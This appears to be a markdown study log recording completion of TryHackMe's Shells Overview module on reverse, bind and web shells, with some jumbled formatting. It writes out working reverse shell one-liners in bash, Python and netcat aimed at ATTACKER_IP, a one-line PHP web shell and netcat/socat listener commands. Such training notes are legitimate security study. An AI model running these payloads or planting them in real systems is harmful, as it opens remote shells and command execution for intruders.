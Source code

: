 ```bash
Defense strategies against enumeration attacks

Log monitoring for reconnaissance detection

Part of TryHackMe's Cyber Security 101 Path 

# Shells Overview - Remote Access Techniques | TryHackMe Completion
## Completion Date: [2025/10/03]
## 🎯 Module Overview
Completion of the Shells Overview module covering remote access techniques including reverse shells, bind shells, and web shells.

## 🔧 Skills Acquired

### Shell Types Mastered
- **Reverse Shells**: Initial connections from compromised systems to attacker machines
- **Bind Shells**: Listening services on target systems awaiting connections
- **Web Shells**: Web-based scripts for command execution on compromised servers

### Advanced Listener Tools
```bash
# RLwrap with history and editing
rlwrap nc -lvnp 443

# Ncat with SSL encryption
ncat --ssl -lvnp 443

# Socat for complex connections
socat -d -d TCP-LISTEN:443 STDOUT
Multi-Language Payloads
Bash:

bash
bash -i >& /dev/tcp/ATTACKER_IP/443 0>&1
Python:

python
python -c 'import socket,os,pty;s=socket.socket();s.connect(("IP",443));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("/bin/sh")'
PHP:

php
<?php system($_GET['cmd']); ?>
Netcat:

bash
nc -e /bin/bash ATTACKER_IP 443
Web Shells Implementation
p0wny-shell: Minimalist PHP web shell

b374k shell: Advanced PHP web shell with file management

Custom web shell deployment techniques

Upload vulnerabilities exploitation

🎯 Key Competencies
Technical Understanding
Difference between reverse and bind shells

Firewall evasion techniques

Payload selection based on target environment
```